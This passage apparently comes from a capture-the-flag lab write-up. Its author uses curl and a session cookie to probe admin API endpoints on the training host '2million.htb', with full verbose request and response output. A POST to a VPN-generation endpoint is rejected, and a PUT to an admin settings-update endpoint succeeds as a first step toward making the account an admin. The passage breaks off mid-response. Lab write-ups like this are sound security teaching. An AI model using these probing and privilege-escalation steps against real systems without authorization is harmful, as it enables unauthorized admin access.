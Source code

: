 ```
```
`curl-ing`the `/api/v1/admin/auth` gave us the `false`because we are not admin.
```
$ curl -sv -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=7a0pbm0uacm9s69027tjukf5e9" | jq
* Host 2million.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.10.11.221
*   Trying 10.10.11.221:80...
* Connected to 2million.htb (10.10.11.221) port 80
> POST /api/v1/admin/vpn/generate HTTP/1.1
> Host: 2million.htb
> User-Agent: curl/8.8.0
> Accept: */*
> Cookie: PHPSESSID=7a0pbm0uacm9s69027tjukf5e9
>
* Request completely sent off
< HTTP/1.1 401 Unauthorized
< Server: nginx
< Date: Tue, 06 Aug 2024 18:24:42 GMT
< Content-Type: text/html; charset=UTF-8
< Transfer-Encoding: chunked
< Connection: keep-alive
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate
< Pragma: no-cache
<
{ [5 bytes data]
* Connection #0 to host 2million.htb left intact
```
Here we get `401 Unauthorized`. We have to become the admin.
```
$ curl -v -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=7a0pbm0uacm9s69027tjukf5e9" | jq
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0* Host 2million.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.10.11.221
*   Trying 10.10.11.221:80...
* Connected to 2million.htb (10.10.11.221) port 80
> PUT /api/v1/admin/settings/update HTTP/1.1
> Host: 2million.htb
> User-Agent: curl/8.8.0
> Accept: */*
> Cookie: PHPSESSID=7a0pbm0uacm9s69027tjukf5e9
>
* Request completely sent off
  0     0    0     0    0     0      0      0 --:--:--  0:00:01 --:--:--     0< HTTP/1.1 200 OK
< Server: nginx
< Date: Tue, 06 Aug 2024 18:34:19 GMT
< Content-Type: application/json
< Transfer-Encoding: chunked
< Connection: keep-alive
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate
< Pragma: no-cache
<
{ [64 bytes data]
100    53    0    53    0     0     33      0 --:--:--  0:00:01 --:--:--    33
* Connection #0 to host 2million.htb left intact
{
  "status": "danger",
```